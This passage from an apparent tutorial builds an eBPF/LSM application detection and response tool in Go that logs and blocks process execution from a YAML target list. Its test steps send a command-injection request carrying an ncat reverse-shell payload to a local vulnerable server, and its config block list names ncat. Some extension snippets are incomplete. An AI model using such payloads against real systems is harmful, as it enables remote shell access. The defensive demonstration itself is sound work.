        err := targetsMap.Update(unsafe.Pointer(&key), unsafe.Pointer(&value), ebpf.UpdateAny)
        if err != nil {
            log.Printf("Error updating map: %v", err)
        }
    }
}

func watchConfig(configFile string, targetsMap *ebpf.Map, currentTargets map[TargetKey]uint8) {
    watcher, err := fsnotify.NewWatcher()
    if err != nil {
        log.Fatalf("Failed to create file watcher: %v", err)
    }
    defer watcher.Close()

    if err := watcher.Add(configFile); err != nil {
        log.Fatalf("Failed to watch config file: %v", err)
    }

    for {
        select {
        case event, ok := <-watcher.Events:
            if !ok {
                return
            }
            if event.Op.Has(fsnotify.Write) {
                log.Println("Config file changed, reloading...")

                time.Sleep(1 * time.Second)  // Allow file write to complete
                var config Config
                if err := loadConfig(event.Name, &config); err != nil {
                    log.Printf("Error reloading config: %v", err)
                    continue
                }

                newTargets := populateMap(targetsMap, config, currentTargets)
                // Update current targets reference
                for k := range currentTargets {
                    delete(currentTargets, k)
                }
                for k, v := range newTargets {
                    currentTargets[k] = v
                }
            }
        case err := <-watcher.Errors:
            log.Printf("File watcher error: %v", err)
        }
    }
}
```

### Event Processing and Security Logging

```go
func processEvents(eventsMap *ebpf.Map) error {
    rd, err := ringbuf.NewReader(eventsMap)
    if err != nil {
        return fmt.Errorf("failed to create ring buffer reader: %v", err)
    }
    defer rd.Close()

    sig := make(chan os.Signal, 1)
    signal.Notify(sig, syscall.SIGINT, syscall.SIGTERM)

    done := make(chan bool)
    go func() {
        log.Println("Listening for security events...")
        for {
            record, err := rd.Read()
            if err != nil {
                if errors.Is(err, ringbuf.ErrFlushed) {
                    done <- true
                    break
                }
                log.Printf("Error reading from ring buffer: %v", err)
                continue
            }

            var event Event
            if err := event.UnmarshalBinary(record.RawSample); err != nil {
                log.Printf("Error unmarshaling event: %v", err)
                continue
            }

            logSecurityEvent(&event)
        }
    }()

    select {
    case <-sig:
        log.Println("Received exit signal, shutting down...")
    case <-done:
        log.Println("Event processing completed")
    }

    return nil
}

func logSecurityEvent(event *Event) {
    timestamp := time.Now().Format("2006-01-02 15:04:05")
    command := strings.TrimRight(string(event.Command[:]), "\x00")
    args := parseArgs(event)

    log.Printf("[SECURITY EVENT] %s - UID=%d PID=%d PPID=%d Command=%s Args=%s",
        timestamp, event.UID, event.PID, event.PPID, command, args)

    // Additional security analysis could be added here:
    // - Send alerts to SIEM systems
    // - Update threat intelligence feeds
    // - Trigger automated response workflows
    // - Generate forensic evidence
}

func parseArgs(event *Event) string {
    if event.ArgsSize == 0 {
        return ""
    }

    args := make([]string, 0, event.ArgsCount)
    data := event.Args[:event.ArgsSize]

    start := 0
    for i := 0; i < int(event.ArgsCount) && start < len(data); i++ {
        end := start
        for end < len(data) && data[end] != 0 {
            end++
        }

        if end > start {
            args = append(args, string(data[start:end]))
        }

        start = end + 1
    }

    return strings.Join(args, " ")
}

// Binary unmarshaling for events
func (e *Event) UnmarshalBinary(data []byte) error {
    if len(data) < int(unsafe.Sizeof(*e)) {
        return fmt.Errorf("data too short")
    }

    reader := bytes.NewReader(data)
    return binary.Read(reader, binary.LittleEndian, e)
}
```

### Complete Go Implementation

<details>
<summary>Click to view the complete Go program</summary>

```go
//go:generate go run github.com/cilium/ebpf/cmd/bpf2go -cc clang -cflags $BPF_CFLAGS Adr adr.c

package main

import (
    "bytes"
    "encoding/binary"
    "errors"
    "fmt"
    "log"
    "os"
    "os/signal"
    "strings"
    "syscall"
    "time"
    "unsafe"

    "github.com/cilium/ebpf"
    "github.com/cilium/ebpf/link"
    "github.com/cilium/ebpf/ringbuf"
    "github.com/cilium/ebpf/rlimit"
    "github.com/fsnotify/fsnotify"
    "gopkg.in/yaml.v2"
)

type Config struct {
    Targets []Target `yaml:"targets"`
}

type Target struct {
    Type    string      `yaml:"type"`
    Value   interface{} `yaml:"value"`
    Actions Actions     `yaml:"actions"`
}

type Actions struct {
    Monitor bool `yaml:"monitor"`
    Block   bool `yaml:"block"`
}

type Event struct {
    UID       uint32
    PID       uint32
    PPID      uint32
    ArgsCount uint32
    ArgsSize  uint32
    Command   [32]byte
    Args      [384]byte
}

type TargetKey struct {
    Type     uint8
    Reserved [3]uint8
    Data     [32]byte
}

func main() {
    configFile := "config.yaml"
    if len(os.Args) > 1 {
        configFile = os.Args[1]
    }

    var config Config
    if err := loadConfig(configFile, &config); err != nil {
        log.Fatalf("Error loading config: %v", err)
    }

    if err := rlimit.RemoveMemlock(); err != nil {
        log.Fatalf("Failed to remove memlock: %v", err)
    }

    var objs adrObjects
    if err := loadAdrObjects(&objs, nil); err != nil {
        log.Fatalf("Error loading eBPF objects: %v", err)
    }
    defer objs.Close()

    currentTargets := populateMap(objs.Targets, config, nil)
    go watchConfig(configFile, objs.Targets, currentTargets)

    monProg := objs.MonitorSyscalls
    monLnk, err := link.Tracepoint("syscalls", "sys_enter_execve", monProg, nil)
    if err != nil {
        log.Fatalf("Failed to attach eBPF program: %v", err)
    }
    defer monLnk.Close()

    lsmProg := objs.EnforceExecve
    lsmLnk, err := link.AttachLSM(link.LSMOptions{
        Program: lsmProg,
    })
    if err != nil {
        log.Fatalf("Failed to attach eBPF program: %v", err)
    }
    defer lsmLnk.Close()

    log.Println("eBPF programs are attached successfully.")

    rd, err := ringbuf.NewReader(objs.Events)
    if err != nil {
        log.Fatalf("Failed to create ring buffer reader: %v", err)
    }
    defer rd.Close()

    sig := make(chan os.Signal, 1)
    signal.Notify(sig, syscall.SIGINT, syscall.SIGTERM)

    done := make(chan bool)
    go func() {
        log.Println("Listening for events...")
        for {
            record, err := rd.Read()
            if err != nil {
                if errors.Is(err, ringbuf.ErrFlushed) {
                    done <- true
                    break
                }
                log.Printf("Error reading from ring buffer: %v", err)
                continue
            }

            var event Event
            if err := event.UnmarshalBinary(record.RawSample); err != nil {
                log.Printf("Error unmarshaling event: %v", err)
                continue
            }

            log.Printf("Event: UID=%d PID=%d PPID=%d Command=%s",
                event.UID, event.PID, event.PPID, printArgs(&event))
        }
    }()

    <-sig
    log.Println("Received exit signal (Ctrl+C), starting timeout...")

    timeout := time.After(1 * time.Second)
    select {
    case <-timeout:
        log.Println("Timeout reached, closing reader...")
        if err := rd.Flush(); err != nil {
            log.Printf("Error flushing ring buffer: %v", err)
        }
    case <-done:
        log.Println("Reader finished early, exiting...")
    }

    log.Println("Exiting...")
}

func loadConfig(filename string, config *Config) error {
    data, err := os.ReadFile(filename)
    if err != nil {
        return err
    }
    return yaml.Unmarshal(data, config)
}

func populateMap(targetsMap *ebpf.Map, config Config, currentTargets map[TargetKey]uint8) map[TargetKey]uint8 {
    newTargets := make(map[TargetKey]uint8)

    for _, target := range config.Targets {
        key := TargetKey{}
        var value uint8

        if target.Actions.Monitor {
            value |= 0b10
        }
        if target.Actions.Block {
            value |= 0b01
        }

        switch target.Type {
        case "command":
            key.Type = 'c'
            if cmdStr, ok := target.Value.(string); ok {
                copy(key.Data[:], cmdStr)
                newTargets[key] = value
            }
        case "pid":
            key.Type = 'p'
            var pidValue uint32
            switch v := target.Value.(type) {
            case int:
                pidValue = uint32(v)
            case uint32:
                pidValue = v
            case float64:
                pidValue = uint32(v)
            }
            binary.LittleEndian.PutUint32(key.Data[:4], pidValue)
            newTargets[key] = value
        case "uid":
            key.Type = 'u'
            var uidValue uint32
            switch v := target.Value.(type) {
            case int:
                uidValue = uint32(v)
            case uint32:
                uidValue = v
            case float64:
                uidValue = uint32(v)
            }
            binary.LittleEndian.PutUint32(key.Data[:4], uidValue)
            newTargets[key] = value
        }
    }

    if currentTargets != nil {
        for key := range currentTargets {
            if _, exists := newTargets[key]; !exists {
                targetsMap.Delete(unsafe.Pointer(&key))
            }
        }
    }

    for key, value := range newTargets {
        err := targetsMap.Update(unsafe.Pointer(&key), unsafe.Pointer(&value), ebpf.UpdateAny)
        if err != nil {
            log.Printf("Error updating map: %v", err)
        }
    }

    log.Printf("Loaded %d targets", len(newTargets))
    return newTargets
}

func watchConfig(configFile string, targetsMap *ebpf.Map, currentTargets map[TargetKey]uint8) {
    watcher, err := fsnotify.NewWatcher()
    if err != nil {
        log.Fatalf("Failed to create file watcher: %v", err)
    }
    defer watcher.Close()

    if err := watcher.Add(configFile); err != nil {
        log.Fatalf("Failed to watch config file: %v", err)
    }

    for {
        select {
        case event, ok := <-watcher.Events:
            if !ok {
                return
            }
            if event.Op.Has(fsnotify.Write) {
                log.Println("Config file changed, reloading...")
                time.Sleep(1 * time.Second)

                var config Config
                if err := loadConfig(event.Name, &config); err != nil {
                    log.Printf("Error reloading config: %v", err)
                    continue
                }
                populateMap(targetsMap, config, currentTargets)
            }
        case err := <-watcher.Errors:
            log.Printf("File watcher error: %v", err)
        }
    }
}

func printArgs(event *Event) string {
    if event.ArgsSize == 0 {
        return ""
    }

    args := make([]string, 0, event.ArgsCount)
    data := event.Args[:event.ArgsSize]

    start := 0
    for i := 0; i < int(event.ArgsCount) && start < len(data); i++ {
        end := start
        for end < len(data) && data[end] != 0 {
            end++
        }

        if end > start {
            args = append(args, string(data[start:end]))
        }

        start = end + 1
    }

    return strings.Join(args, " ")
}

func (e *Event) UnmarshalBinary(data []byte) error {
    if len(data) < int(unsafe.Sizeof(*e)) {
        return fmt.Errorf("data too short")
    }

    reader := bytes.NewReader(data)
    return binary.Read(reader, binary.LittleEndian, e)
}
```

</details>

## Compiling and Running

### Build Process

```bash
# Generate eBPF Go bindings
go generate

# Build the ADR application
go build -o adr-monitor .

# Create configuration file
cat > config.yaml << EOF
targets:
  - type: "command"
    value: "/usr/bin/whoami"
    actions:
      block: false
      monitor: true
  - type: "command"
    value: "/bin/ncat"
    actions:
      block: true
      monitor: true
  - type: "uid"
    value: 1000
    actions:
      monitor: true
      block: false
EOF

# Run the ADR system (requires root privileges)
sudo ./adr-monitor config.yaml
```

### Testing the System

```bash
# Terminal 1: Start the vulnerable web server
go run vulnerable-server.go

# Terminal 2: Start the ADR monitor
sudo ./adr-monitor config.yaml

# Terminal 3: Test attacks
# This should be allowed (whitelisted)
curl "http://localhost:8080/?cmd=whoami"

# This should be blocked (blacklisted)
curl "http://localhost:8080/?cmd=ncat 10.10.10.10 9001 -e sh"

# This should be monitored (based on UID rules)
curl "http://localhost:8080/?cmd=ls -la"
```

### Expected Behavior

```
# ADR Monitor Output:
2024-12-20 10:15:23 - [INFO] eBPF programs attached successfully
2024-12-20 10:15:23 - [INFO] Listening for security events...
2024-12-20 10:15:45 - [SECURITY EVENT] UID=33 PID=12345 PPID=12344 Command=whoami Args=whoami
2024-12-20 10:15:52 - [SECURITY EVENT] UID=33 PID=12346 PPID=12344 Command=ncat BLOCKED
2024-12-20 10:16:03 - [SECURITY EVENT] UID=33 PID=12347 PPID=12344 Command=ls Args=ls -la
```

## Advanced Features and Extensions

### Threat Intelligence Integration

```go
// Enhanced security event processing with threat intelligence
type ThreatIntelligence struct {
    KnownMaliciousCommands map[string]ThreatLevel
    SuspiciousPatterns     []regexp.Regexp
    IPReputation          map[string]ThreatLevel
}

type ThreatLevel int

const (
    Low ThreatLevel = iota
    Medium
    High
    Critical
)

func (ti *ThreatIntelligence) AnalyzeEvent(event *Event) ThreatAssessment {
    assessment := ThreatAssessment{
        Level:       Low,
        Indicators:  []string{},
        Recommended: []string{},
    }

    command := strings.TrimRight(string(event.Command[:]), "\x00")

    // Check against known malicious commands
    if level, exists := ti.KnownMaliciousCommands[command]; exists {
        assessment.Level = level
        assessment.Indicators = append(assessment.Indicators,
            fmt.Sprintf("Known malicious command: %s", command))
    }

    // Check for suspicious patterns
    args := parseArgs(event)
    for _, pattern := range ti.SuspiciousPatterns {
        if pattern.MatchString(args) {
            assessment.Level = max(assessment.Level, Medium)
            assessment.Indicators = append(assessment.Indicators,
                fmt.Sprintf("Suspicious pattern detected: %s", pattern.String()))
        }
    }

    return assessment
}
```

### Machine Learning Integration

```go
// ML-based anomaly detection
type AnomalyDetector struct {
    ModelEndpoint string
    Threshold     float64
}

func (ad *AnomalyDetector) DetectAnomaly(event *Event) (bool, float64, error) {
    features := extractFeatures(event)

    payload := map[string]interface{}{
        "features": features,
    }

    response, err := http.Post(ad.ModelEndpoint, "application/json",
        bytes.NewBuffer(jsonPayload))
    if err != nil {
        return false, 0, err
    }
    defer response.Body.Close()

    var result struct {
        AnomalyScore float64 `json:"anomaly_score"`
    }

    if err := json.NewDecoder(response.Body).Decode(&result); err != nil {
        return false, 0, err
    }

    return result.AnomalyScore > ad.Threshold, result.AnomalyScore, nil
}

func extractFeatures(event *Event) []float64 {
    // Extract relevant features for ML model
    return []float64{
        float64(event.UID),
        float64(event.ArgsCount),
        float64(event.ArgsSize),
        // Add more relevant features
    }
}
```

### SIEM Integration

```go
// SIEM integration for enterprise environments
type SIEMConnector struct {
    Endpoint string
    APIKey   string
    Format   string
}

func (sc *SIEMConnector) SendAlert(event *Event, assessment ThreatAssessment) error {
    alert := map[string]interface{}{
        "timestamp":    time.Now().Unix(),
        "event_type":   "security_violation",
        "severity":     assessment.Level,
        "source_ip":    getSourceIP(event),
        "user_id":      event.UID,
        "process_id":   event.PID,
        "command":      extractCommand(event),
        "indicators":   assessment.Indicators,
        "raw_event":    event,
    }

    return sc.sendToSIEM(alert)
}
```

## Conclusion

As cyber threats continue to evolve and become more sophisticated, traditional perimeter-based security measures are no longer sufficient to protect critical applications and data. The ADR (Application Detection and Response) technology, powered by eBPF, offers a reliable, intelligent, and proactive approach to application security that operates at the kernel level with minimal performance impact.

### Key Benefits of eBPF-based ADR



**Strategic Advantages:**

1. **Proactive Defense**: Detects and prevents attacks before system compromise
2. **Context Awareness**: Understands application behavior and legitimate operations
3. **Evasion Resistance**: Cannot be bypassed through traditional WAF evasion techniques
4. **Scalable Deployment**: Works across containerized and traditional environments
5. **Integration Ready**: Seamlessly integrates with existing security infrastructure

### Future Enhancements

The ADR system can be extended with additional capabilities:

- **Container-Aware Monitoring**: Kubernetes and Docker integration
- **Network Behavior Analysis**: Combined system call and network monitoring
- **Advanced ML Models**: Behavioral anomaly detection and prediction
- **Automated Response**: Integration with SOAR platforms for automated remediation
- **Compliance Reporting**: Automated generation of security compliance reports

### Implementation Recommendations

1. **Start Small**: Begin with monitoring-only mode to understand normal application behavior
2. **Gradual Rollout**: Implement blocking rules incrementally after thorough testing
3. **Baseline Establishment**: Create comprehensive baselines of legitimate application behavior
4. **Continuous Tuning**: Regularly update rules based on threat intelligence and false positive analysis
5. **Team Training**: Ensure security teams understand eBPF-based monitoring capabilities

By leveraging eBPF technology for Application Detection and Response, organizations can significantly strengthen their security posture, minimize attack surface exposure, and stay ahead of emerging threats while maintaining optimal application performance and user experience.

## Resources and Further Reading

### Technical Documentation

- [eBPF Official Documentation](https://ebpf.io/)
- [Cilium eBPF Library](https://github.com/cilium/ebpf)
- [Linux Security Modules](https://www.kernel.org/doc/html/latest/security/lsm.html)
- [BCC Tools Reference](https://github.com/iovisor/bcc)

### Security Research

- [OWASP Application Security](https://owasp.org/www-project-application-security-verification-standard/)
- [MITRE ATT&CK Framework](https://attack.mitre.org/)
- [Runtime Application Self-Protection (RASP)](https://www.gartner.com/en/information-technology/glossary/runtime-application-self-protection-rasp)

### Advanced Learning

- [Learning eBPF by Liz Rice](https://www.oreilly.com/library/view/learning-ebpf/9781098135119/)
- [Systems Programming with eBPF](https://www.manning.com/books/learning-ebpf)
- [Linux Kernel Security](https://www.kernel.org/doc/html/latest/security/)

---

_Inspired by the original tutorial by efr13nd on [efr13nd's blog](https://efr13nd.github.io/posts/ebpf-based-adr-real-time-app-defense/)_
